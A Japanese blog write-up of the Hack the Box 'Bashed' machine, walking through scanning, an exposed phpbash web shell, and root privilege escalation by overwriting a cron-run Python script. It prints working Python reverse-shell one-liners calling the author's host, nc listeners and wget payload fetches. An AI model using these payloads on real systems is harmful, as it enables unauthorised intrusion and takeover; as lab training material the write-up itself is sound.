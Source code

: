 ```yaml
---
title: "【Hack the Box write-up】Bashed"
date:  "2020-03-15T15:04:05+07:00"
author:
  - "さんぽし"
description: "【Hack the Box write-up】Bashed"
draft: false
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```

#はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)
#cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

#machine について
難易度は easy です。


#nmap

```
kali@kali:~$ nmap -p- -sC -sV 10.10.10.68
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-14 20:53 EDT
Nmap scan report for 10.10.10.68
Host is up (0.17s latency).
Not shown: 65505 closed ports, 29 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4542.47 seconds

```

#80 番ポートを開いてみる
![スクリーンショット 2020-03-15 16.37.49.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/ab2814c3-17c9-df5d-cc50-5fe7f03f99ec.png)
![スクリーンショット 2020-03-15 16.38.01.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/f032ba69-c5ec-03a3-583f-16f396d4ec9e.png)

phpbash について説明した記事が出てきます。

#dirbuster

![スクリーンショット 2020-03-15 16.38.56.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/70945b83-cc45-d99f-45f3-641eea71d2eb.png)
`/dev`に `phpbash.php` が見つかります。

#`phpbash.php`を開く
![スクリーンショット 2020-03-15 16.40.23.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/d55101b4-8931-e12e-86f2-435f751dca78.png)
このようなターミナルのような画面が現れます。

![スクリーンショット 2020-03-15 16.42.36.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/7e7e3071-d7b1-54f4-100c-63d6a2ee364d.png)

user.txt が取れました。

#とりま `sudo -l` する

![スクリーンショット 2020-03-15 16.43.48.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/a2a2b561-cc6d-f867-cba4-4083c68f6d1e.png)

scriptmanager という user に切り替えられることがわかります。

#リバースシェルをとる

なぜか phpbash で scriptmanager の bash に切り替えられなかったので（←詰まったポイント 1)phpbash から一旦普通のリバースシェルに切り替えます。

ホスト側で以下のように待ち構えて

```
$ nc -lvnp 4242
```
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)に乗っている python のコードをそのまま拝借して使用します。
IPv4 ではなぜか失敗します（←詰まったポイント 2
他の writeup をみてみると IPv4 じゃなくて IPv6 なら成功するよってことで IPv6 を使用すると、

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

以下のようにリバースシェルが取れました。

```
kali@kali:~$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.68] 39742
/bin/sh: 0: can't access tty; job control turned off
$ 
```

そしてリバースシェルの方で scriptmanager に切り替えようとしてみると

```
$ sudo -u scriptmanager bash
whoami
scriptmanager
```
成功しました。

#ディレクトリ探索
scriptmanager という名前なので script などの名前のついたファイルを中心に探してみると、ルートディレクトリに `/script` が存在し、案の定 scriptmanager が所有していることになっています。

```
cd /
ls -la
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 .
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ..
drwxr-xr-x   2 root          root           4096 Dec  4  2017 bin
drwxr-xr-x   3 root          root           4096 Dec  4  2017 boot
drwxr-xr-x  19 root          root           4240 Mar 14 17:55 dev
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 124 root          root              0 Mar 14 17:55 proc
drwx------   3 root          root           4096 Dec  4  2017 root
drwxr-xr-x  18 root          root            500 Mar 14 17:55 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Mar 15 00:33 sys
drwxrwxrwt  10 root          root           4096 Mar 15 00:55 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Dec  4  2017 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

中をみてみます。

```
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Mar 15 00:56 test.txt
```
scriptmanager の所有する `test.py` 、root が所有する `test.txt` が存在します。
中を覗くと

```
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

cat test.txt
testing 123!
```
となっています。

ここでもここからどうすれば？？という感じだったのですが、注目すべきは `test.txt` の**更新時間**でした。

このファイルだけ明らかに最近更新されており、`ls -la`でみるたびに更新されています。

- 頻繁に更新されていることから自動で `test.py` が実行されるようになっていると予想される
- `test.txt`は root の所有なので `test.py` の実行は root が行なっていると考えられる
- そして `test.py` は scriptmanager の所有なので編集できる

ここまで言えば何をすればいいか明確ですね（←自分では分からなくて[writeup](https://ethicalhacking.sh/posts/hack-the-box-bashed-writeup/)みた人）

#test.py を編集する
正確には編集したものをホストから持ってきます。

```test.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

見にくいですね。これは先ほどの[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)に乗っている python の IPv6 のコードをそのまま持ってきたものです（IP アドレスとかは変えてます）

ホスト側で SimpleHTTPServer を使って machine 側で取得します。

```
kali@kali:~$ python -m SimpleHTTPServer
```

```
rm test.py
wget http://10.10.14.3:8000/test.py
--2020-03-15 01:09:23--  http://10.10.14.3:8000/test.py
Connecting to 10.10.14.3:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 215 [text/plain]
Saving to: 'test.py'

     0K                                                       100% 24.3M=0s

2020-03-15 01:09:24 (24.3 MB/s) - 'test.py' saved [215/215]
```

これで既存の test.py を先ほど編集した test.py に切り替えられました。
ホスト側で root のリバースシェルを待ち受けます

```
kali@kali:~$ nc -lnvp 4444
listening on [any] 4444 ...
```
>自動で `test.py` が実行されるようになっていると予想される

なのでしばらく待ってみると

```
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.68] 37178
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
root が取れました！

#終わりに
今回は `ls -la` で所有者の違いと更新日時から root が定期的に `test.py` を実行しているということを見破るという部分が自分では見破れませんでした…
精進します。。


